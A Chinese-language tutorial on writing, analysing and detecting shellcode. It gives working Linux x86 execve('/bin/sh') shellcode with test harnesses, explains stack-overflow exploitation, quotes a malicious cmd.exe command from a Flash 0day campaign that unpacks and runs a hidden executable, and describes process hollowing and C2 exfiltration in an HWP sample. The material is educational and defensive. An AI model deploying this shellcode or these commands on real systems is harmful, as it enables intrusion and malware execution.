## shellcode全面学习——编写、识别、分析及检测
### 一、shellcode基础知识
1. 什么是shellcode?

在计算机安全中，最字面意义上的shellcode意味着编写在执行时将返回远程shell的代码。shellcode的实质是指溢出后执行的能开启系统shell的代码。可以将shellcode分为四部分。
- 核心shellcode代码，包含了攻击者要执行的所有代码
- 溢出地址，触发shellcode
- 填充物，填充未使用的缓冲区，用于控制溢出地址的位置
- 结束符号0，用0结尾，避免溢出时字符串异常

2. Windows下的shellcode与Linux下的shellcode有什么区别？

Linux与Windows不同，它提供了通过int 0x80接口与内核进行接口的直接方式。在这里可以找到Linux系统调用表的完整列表。另一方面，Windows没有直接的内核接口。系统必须通过加载需要从DLL(动态链接库)执行的函数的地址进行接口。两者之间的关键区别在于，在Windows中找到的函数的地址在不同的操作系统版本之间是不同的，而int 0x80系统调用号将保持不变。Windows的这种机制是为了程序员可以对内核进行任何需要的更改;相反，Linux为所有内核级别的函数都固定了编号系统，如果这些函数发生变化，将会产生以及大量破碎的代码，会给许许多多的程序员带来麻烦。

3. 理解系统调用。

编写shellcode的目的是让目标程序以不同于设计者预期的方式运行，可以强制它产生系统调用（system,call,syscall)。通过系统调用，可以直接访问系统内核。

### 二、shellcode背景知识
- EAX、EBX、ECX和EDX都是x86平台上的32位通用寄存器。
- AH, BH, CH和DH访问通用寄存器的高16位。
- AL、BL、CL和DL访问通用寄存器的低8位。
- 在进行Linux系统调用时使用ESI和EDI。
- 涉及6个或更少参数的系统调用通过通用寄存器传递。
- XOR EAX, EAX是使一个寄存器归零的很好的方式，可以避免产生空字节。
- 在Windows中，所有函数参数都根据它们的调用约定传递给堆栈。

### 三、shellcode工具
- gcc
- nasm
- objdump

### 四、简单shellcode实践
**1、为exit()的系统调用编写shellcode**

exit()可以终止当前进程，系统调用过程为：首先把exit()的系统调用编号加载到eax，再把系统调用的参数加载到ebx，最后执行int 0x80指令来产生系统调用。

函数原型：```exit(0)```

可以得知，系统调用的参数为0，存储到ebx中

步骤：
- 将eax归0，去除空字节，存储系统调用编号
- exit()的系统调用编号为1，存到al中
- 将ebx归0
- 执行int 0x80指令来产生系统调用
```txt
Section .text
        global _start
_start:
        xor eax, eax       
        mov al, 1      
        xor ebx,ebx    
        int 0x80
```

将上述代码存放到名为```exit.asm```的文件中，执行以下命令：

```txt
root@root:~/shellcode# nasm -f elf exit.asm
root@root:~/shellcode# objdump -d exit.o
```

得到输出如下：
```txt
exit.o：     文件格式 elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	b0 01                	mov    $0x1,%al
   4:	31 db                	xor    %ebx,%ebx
   6:	cd 80                	int    $0x80
```

因此，提取出的所需要的字节为```31 c0 b0 01 31 db cd 80```

编写c代码测试该shellcode:
```txt
char code[] = "\x31\xc0"
              "\xb0\x01"
              "\x31\xdb"
              "\xcd\x80";
int main(int argc, char **argv)
{
  int (*func)();
  func = (int (*)()) code;
  (int)(*func)();
}
```
在执行该c文件生成的可执行文件时，出现段错误


这是由于该程序堆栈的空间只有读写权限，没有可执行权限，所以在该地址执行代码导致错误。编译时对该程序启动栈空间可执行权限：



成功返回shell，该shellcode实验的编写和提取过程成功！

**2、为execve()的系统调用编写shellcode**

首先依旧是先理解execve()的系统调用原理。在Linux系统中，execve()系统调用可以在现有的进程空间里执行其他的进程，是一种创建新进程的方法。

函数原型：```execve(const char *filename, char *const argv[], char *const envp[])```

可以得知，该函数有3个输入参数。
- filename指向包含要执行的二进制文件路径的字符串。假设此次
- argv[]是程序的参数列表。若没有更多的参数，则参数列表第一个参数是要执行的文件名，即上述的filename，加一个NULL指针0x00000000
- envp[]是要以key:value格式传递其他环境选项的列表。若无，则为NULL指针0x00000000

步骤：
- 将参数从右至左入栈
- 首先将envp[]的0x00000000入栈
- 再将argv[]的第一个参数文件名入栈，需要反向推送```/bin/sh```。因为```/bin/sh```是7个字节，应将其变成4的倍数个字节，即8个字节。可以将其增加一个不影响结果的```/```，最终变成```//bin/sh```
- 用pythons生成其16进制表示，为```68732f6e69622f2f```
- 将此时栈顶指针esp所指向的地址存入ebx寄存器中，即此时ebx寄存器中存入```/bin/sh```的地址
- 然后将argv[]的第二个参数NULL指针入栈，并将此时的栈顶指针esp指向的地址存入edx中
- 将文件地址ebx入栈
- 再将此时的栈顶指针esp所指向的地址存入ecx寄存器中
- 将系统调用编号11存入al中
- 最后执行int 0x80指令来产生系统调用

```txt
;execve.asm
[SECTION .text]
global _start
_start:
        xor eax, eax       
        push eax
        push 0x68732f6e
        push 0x69622f2f
        mov ebx,esp 
        push eax
        mov edx,esp
        push ebx
        mov ecx,esp
        mov al,11
        int 0x80
```

将上述代码存放到名为```execve.asm```的文件中，执行以下命令：

```txt
root@root:~/shellcode# nasm -f elf execve.asm
root@root:~/shellcode# objdump -d execve.o
```

得到输出如下：
```txt
execve.o：     文件格式 elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 6e 2f 73 68       	push   $0x68732f6e
   8:	68 2f 2f 62 69       	push   $0x69622f2f
   d:	89 e3                	mov    %esp,%ebx
   f:	50                   	push   %eax
  10:	89 e2                	mov    %esp,%edx
  12:	53                   	push   %ebx
  13:	89 e1                	mov    %esp,%ecx
  15:	b0 0b                	mov    $0xb,%al
  17:	cd 80                	int    $0x80
```

因此，提取出的所需要的字节为```31 c0 50 68 6e 2f 73 68 68 2f 2f 62 69 89 e3 50 89 e2 53 89 e1 b0 0b cd 80```

编写c代码测试该shellcode:
```txt
#include<stdio.h>
#include<string.h>
char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
int main()
{
  printf("Shellcode Length:  %d\n", strlen(code));
  int (*func)();
  func = (int (*)()) code;
  (int)(*func)();
}
```

执行该c文件生成的可执行文件，结果如下：

```txt
root@root:~/shellcode# gcc -z execstack -o execve_s execve_s.c
root@root:~/shellcode# ./execve_s
Length: 23
$exit
```

成功返回shell，该shellcode实验的编写和提取过程成功！

### 五、shellcode缓冲区溢出利用

一个体现缓冲区溢出的c代码：
```txt
void fun(unsigned char *data)
{
    unsigned char buffer[BUF_LEN];
    strcpy((char*)buffer,(char*)data);  //溢出点
}
```

这段代码体现出的问题是：在使用不安全的strcpy库函数时，系统会将data的全部数据拷贝到buffer指向的内存区域。buffer的长度是有限的，当data的数据长度超过buffer的长度时，便会产生缓冲区溢出。且当把data的数据拷贝到buffer内时，超出的数据部分会将原本的栈数据覆盖。

经过学习整理能够得知，根据覆盖数据的不同，可以做如下分类：
- 覆盖其他局部变量，且该变量为条件变量：会改变函数原本的执行流程，可用于```破解简单的软件认证```。
- 覆盖ebp的值：改变了函数执行结束后要恢复的栈指针，```导致栈帧失去平衡```。
- 覆盖返回地址：改变了函数的返回地址，```能够使程序执行意外的流程```。
- 覆盖参数变量：改变了函数的参数变量，```可能改变函数的执行流程和结果```。

若将实现某种行为的其他代码保存在data中，一旦通过栈溢出修改函数的返回地址，使其指向这段代码（即shellcode）的起始地址，就实现了基本的溢出攻击行为。

但由于操作系统每次加载可执行文件到进程空间的位置都是无法预测的，因此栈的位置是不确定的。为了准确定位shellcode的起始地址，可以使用借助跳板的方法：在函数的返回地址填入一个地址，该地址指向```jmp esp```指令，即跳板。当函数返回后，会执行该指令并跳转到esp所在的位置，即shellcode的位置。


### 六、shellcode漏洞分析
**1、一个Excel的栈溢出漏洞分析：[CVE-2012-0158](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0158)**

漏洞成因：Office的一个组件MSCOMCTL.OCX在解析一个标志为Cobj的结构的时候，直接使用文件内容的数据作为拷贝长度，导致拷贝数据的时候可以覆盖函数返回地址，造成了一个标准的栈溢出漏洞。

分析漏洞溢出点：



可以看出，esi中的源地址为0x0020DEF8，edi中的目的地址为0x00137678，拷贝长度为0x800(即ecx*4)字节。

当前内存布局：



调用栈：



当拷贝进行到第四次时，将保存在栈空间的返回地址```0x275E742B```覆盖为```0xAAAAAAAA```



在执行到EIP为```0xAAAAAAAA```时，触发访问异常



综合以上分析，可以得出结论：在漏洞触发点拷贝的数据长度最大应该为8字节，如果多于8字节，将会造成缓冲区溢出。

**2、基于360威胁情报中心：[Flash 0day + Hacking Team远控：利用最新Flash 0day漏洞的攻击活动分析](https://ti.360.net/blog/articles/flash-0day-hacking-team-rat-activities-of-exploiting-latest-flash-0day-vulnerability-and-correlation-analysis/)**

漏洞攻击过程简述：攻击者将Flash 0day漏洞利用文件插入到Word诱饵文档中，并将诱饵文档和一个图片格式的压缩包（JPG+RAR）打包在一个RAR压缩包中发送给目标。目标用户解压压缩包后打开Word文档触发Flash 0day漏洞利用，漏洞利用代码会将同目录下的JPG图片（同时也是一个RAR压缩包）内压缩保存的木马程序解压执行。

漏洞文件执行流程：



可以看到，此次漏洞利用shellcode实现了隐写RAR和解压执行恶意EXE的目的。当受害者收到攻击者发送的压缩文件时，解压后发现是一个.doc文档和一个JPEG图片scan042.jpg，而此scan042.jpg图片是一个JPEG图片格式的rar压缩包，文件头部具有JPEG文件特征，而内部包含一个rar压缩包。因此，该图片既可以被当做JPEG图片解析，也可以被当做rar压缩包处理。当受害者点击word文档时，会触发flash诱导文件，当用户允许播放flash，便会触发该漏洞。

该漏洞利用成功后会执行shellcode，用以动态获取函数地址，随后调用RtlCaptureContext获得当前的栈信息，然后从栈中搜索0xDEC0ADDE、0xFFEFCDAB标志，此标志后的数据为CreateProcess函数需要使用的参数，最后调用CreateProcess函数创建进程执行命令。

动态获取函数地址：



可以看到，具有跳板指令```jmp short 003A010A```

搜索CreateProcess函数需要使用的参数：



调用CreateProcess函数执行命令：



漏洞利用成功后执行的shellcode最终会执行以下命令：```cmd.exe /c set path=%ProgramFiles(x86)%\WinRAR;C:\Program Files\WinRAR; && cd /d %~dp0 & rar.exe e -o+ -r -inul *.rar scan042.jpg & rar.exe e -o+ -r -inul scan042.jpg backup.exe & backup.exe```

该命令行的最终目的是将当前文档路径下的scan042.jpg文件使用WinRAR解压后并执行其中的backup.exe，从而完成对目标用户电脑的控制。

**3、[对某HWP漏洞样本的shellcode分析](https://www.anquanke.com/post/id/169872)**

这个HWP样本漏洞触发后的流程总述：
- 先执行第1阶段shellcode去解密第2阶段的shellcode。
- 在第2阶段的shellcode中，通过hash对比的方式从kernel32.dll中获取功能函数
- 创建 ```C:Windowssystem32userinit.exe```进程并且在创建时挂起
- 从文档内容中查找标志头，定位到被加密的PE文件数据
- 通过两轮解密解出PE文件，将其写入```userinit.exe```进程的0x400000处
- 修改```userinit.exe```进程的```Peb.ImageBaseAddress```为新写入的PE文件，并且修改```userinit.exe```的主线程的线程上下背景文的```Context.eax```为新写入PE文件的```AddressOfEntryPoint```
- 恢复```userinit.exe```的主线程，从而将执行流切换到注入的PE文件的入口地址，这是一种```Process Hollowing```技术，这种方法让分析人员较难提取到注入的PE文件，可以有效躲避检测。
- 注入的PE文件启动后，会收集系统信息保存到```%appdata%MicrosoftNetworkxyz```，随后发给远程C2
- 然后在一个while循环中进行等待，如果收集的信息显示当前目标存在价值，远程C2会下发一个动态库保存到```%appdata%MicrosoftNetworkzyx.dll```并使之加载。

第1阶段的shellcode：

漏洞触发成功之后，首先跳转到```0x20142014```地址，由于前面已经通过堆喷射布局内存，所以执行流可以一路滑行到```0x242bf714```

```txt
0:000> u 242bf714
242bf714 52              push    edx
242bf715 53              push    ebx
242bf716 56              push    esi
242bf717 50              push    eax
242bf718 57              push    edi
242bf719 ba14201420      mov     edx,20142014h
```

第1阶段的shellcode的主要目的是定位并解密第2阶段的shellcode。从下图可以看到，第1阶段shellcode通过第1轮循环(loc_A)定位到第2阶段shellcode地址，然后通过第2轮循环(loc_22)去解密第2阶段的shellcode。



第2阶段的shellcode：

- 获取功能函数

解密后的第2阶段shellcode是一系列hash



此shellcode封装了一个辅助函数用来查找所需的功能函数：



在```GetFuncAddrFromEATByHash```函数内部，用循环右移13位的方式计算hash，并查找满足指定hash的动态库(kernel32.dll)内的满足指定hash的函数，然后将它们的地址保存到栈的指定位置。

- 定位PE文件并解密

获得需要的功能函数后，shellcode首先通过```GlobalAlloc```函数申请一段内存，用来存储后面将要读入的PE数据。随后，从4开始，遍历句柄，搜索文件大小等于当前HWP文件大小的文件句柄并保存，然后将文件指针移动到```0x9DE1```偏移处，并将大小为```3E40A Bytes```的内容读入之前申请的内存处。然后，shellcode从读入的文档内容开始搜索两个连续的标志```0x42594F4A```，```0x4D545245```，并将第2个标志结束```+2```的地址处作为PE数据的首地址,保存到[ebp-18]处。

可以在HWP文档中定位到相应数据区域：



此时的PE文件数据仍为被加密的状态，shellcode随后用两轮解密将解密的PE文件进行解密。

解密前的PE数据如下：



解密后的PE数据如下：



### 七、shellcode的检测
问题：了解了shellcode的机制，如何识别和阻断shellcode？

对此问题，调研了一种shellcode的检测和分析技术，基于论文：[一种shellcode动态检测与分析技术](https://wenku.baidu.com/view/4a6e9f6d4531b90d6c85ec3a87c24028915f85a0.html)

shellcode是漏洞攻击的执行载体，一次完整的漏洞攻击需要漏洞利用技术和shellcode的配合才能达到理想的攻击效果。

当前对shellcode的检测，主要分为```静态检测```和```动态检测```两类方法。

静态shellcode检测技术一般采用```模式匹配```和```静态反汇编技术```。
- 优点：执行效率高
- 缺点：对于格式复杂，存储数据可能经过编码和加密的文本型漏洞，当shellcode存储于加密或编码字段内部时，无法进行有效的反汇编和模式匹配，静态检测的误报、漏报率会大幅度增加，在```pdf```类型文档体现最为明显；同时，静态检测技术无法有效分析shellcode的执行功能，也无法判断攻击目的。

动态shellcode分析技术的思想是```将数据流当做可执行代码模拟执行```。
- 优点：对于网络数据流的分析效果较好，可以有效分析shellcode的执行功能，也可以判断攻击目的。
- 缺点：对攻击本地程序的shellcode的检测方面支持不足。

这里介绍的动态shellcode分析技术具有以下特点：
- 对于存储于文件的加密字段内的shellcode，利用动态方法能够直接对格式转换后的shellcode进行检测，弥补了静态方法的不足，避免了漏报和误报。
- 对shellcode的多态性识别，能够得到shellcode变形之前的数据，利用原始数据便于定位shellcode在文件中的位置，提高对有价值信息分析的效率。
- 判别shellcode的功能，从而辅助逆向人员快速判别攻击代码的攻击目标和攻击手段。

因此，在分析检测一段程序代码是否存在shellcode时，会经过以下三个阶段。

**阶段一：内存搜索**

内存搜索过程是基于```Egg-Hunt识别算法```实现的。

有些软件由于自身的特点，溢出跳转目的地址的内存段没有足够的空间容纳较大的shellcode，因此攻击者通常会利用一段简短的```搜索代码```查找内存中标记了较大shellcode代码的```特定值```。而```Egg-Hunt```就是这段执行搜索功能的代码。

Egg-Hunt的基本思想：循环搜索内存地址，判断所给的内存地址的可访问性。若可以访问，则比较该内存地址处的值和给定的```特定值```是否相等。若相等，则判断查找到了shellcode。

**阶段二：代码自修改**

代码自修改过程是基于```SMC检测算法```实现的。

```SMC```即自修改技术，是一种利用简单的编码方法，能够实现shellcode变形的技术。通过对shellcode进行自修改，可以实现：
- 隐藏攻击代码，增加分析的难度。
- 利用字符编码消除特定字符，从而通过一些程序的字符过滤机制。

常用的自修改编码技术：
- 异或编码
- 全字母编码
- Unicode编码

编码后的shellcode由```解码头```和```加密负载```组成。当shellcode执行时，先由```解码头```对```加密负载```解密，得到了原始的shellcode，然后继续执行解密后的shellcode进行攻击。这种利用```解码头```进行解码的shellcode即为```SMC shellcode```。自修改的shellcode在执行过程中获得当前代码地址，才能够对加密负载进行解码。

过程：
- 执行GetPc指令获得当前代码地址，执行解码指令。
- 从内存中获得解码密钥。
- 循环读取负载的若干字节并在解码后将其写会原内存范围。

**阶段三：功能分析**

对shellcode进行系统API调用序列分析，从而能够有效识别shellcode的功能特征。

功能分析过程：

1、建立API函数信息库：对```kernel32.dll```、```ws2_32.dll```等建立API函数信息库，包含函数名哈希值、地址偏移、参数数目、种类等信息。

2、确定系统空间地址范围：即Windows系统动态链接库地址范围。

3、获取控制转移指令的目的地址。若非系统空间内，转移指令的目的地址位于系统空间，则记录该目的地址。
